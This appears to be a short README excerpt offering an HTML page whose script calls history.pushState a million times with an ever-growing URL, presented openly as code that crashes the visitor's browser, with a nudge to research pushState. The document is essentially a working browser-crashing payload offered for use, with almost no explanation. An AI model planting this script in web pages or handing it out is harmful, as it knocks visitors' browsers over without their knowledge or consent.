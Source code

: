 - The following code will crash your browser very quickly!!!, for deep understanding please research the `pushState` function and in which conditions it is very useful.

  ```
  <!DOCTYPE html>
  <html>

    <body>

      <script type="text/javascript">
        var total = '';

        for (var i = 0; i < 1000000; i++) {
          total += i.toString();
          history.pushState(0, 0, total);
        }
      </script>

    </body>
  </html>
  ```


